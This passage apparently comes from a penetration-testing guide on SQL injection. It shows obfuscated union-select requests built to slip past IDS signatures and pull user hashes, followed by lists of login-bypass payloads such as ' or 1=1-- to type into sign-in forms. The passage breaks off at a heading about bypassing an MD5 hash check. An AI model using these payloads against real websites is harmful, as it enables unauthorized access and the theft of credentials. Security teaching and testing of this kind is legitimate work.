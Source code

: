    In the SQL-string obfuscation method, the attacker uses a concatenation of SQL strings, encrypting or hashing the strings to obfuscate the queries, and then decrypts these at runtime. IDS cannot detect strings obfuscated with such techniques. Thus allowing an attacker to bypass the signatures.

You can also use the mentioned techniques to obfuscate the SQL query to conceal its actual purpose and bypass signature detection of the IDS.

An example of bypassing signatures (obfuscated code for request) is as follows.

The following request corresponds to the application signature:

```
/?id=1+union+(select+1,2+from+test.users)
```

The signatures can be bypassed by modifying the above request:

```
/?id=(1)unIon(selEct(1),mid(hash,1,32)from(test.users))
```

```
/?id=1+union+(sELect'1',concat(login,hash)from+test.users)
```

```
/?id=(1)union(((((((select(1),hex(hash)from(test.users))))))))
```

### Bypass Website Authentication using SQL Injection

Attackers use different SQL injection techniques to bypass website authentication of a web application. As penetration testers, you need to find the vulnerabilities in the website that allow authentication bypass. You can try different SQL techniques used against the authentication mechanism to bypass it.

Try these at website sign in forms:

- admin' --

- admin' #

- admin'/

- ' or 1=1--

- ' or 1=1#

- ' or 1=1/*

- ') or '1'='1--

- ') or ('1'='1--

Try to sign in as a different user using the following SQL injection techniques:

- ' UNION SELECT 1
- ‘anotheruser'
-  ‘doesnt matter', 1--

Try to bypass MDS hash check:
